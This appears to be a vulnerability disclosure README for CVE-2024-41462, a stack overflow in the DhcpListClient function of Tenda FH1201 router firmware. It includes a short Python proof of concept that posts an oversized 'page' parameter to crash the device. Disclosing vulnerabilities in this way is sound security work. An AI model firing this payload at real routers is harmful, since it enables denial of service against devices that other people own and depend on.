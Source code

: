 # DhcpListClient2

Firmware download website:https://www.tendacn.com/download/detail-3322.html

### CVE number

CVE-2024-41462

### Vulnerability details

Tenda FH1201 v1.2.0.14 has a stack overflow vulnerability located in the DhcpListClient function.The parameter page is copied to stackspace v7 via the sprintf function without checking the length,so an attacker can cause a denial of service attack by controlling the page parameter

![image-20240724094746537](./image-20240724094746537.png)

### poc

```python
import requests

ip = '192.168.74.145'

url = "http://" + ip + "/goform/DhcpListClient"
payload = b"a"*1000

data = {"page": payload}
response = requests.post(url, data=data)
print(response.text)

```

![image-20240724095139645](./image-20240724095139645.png)

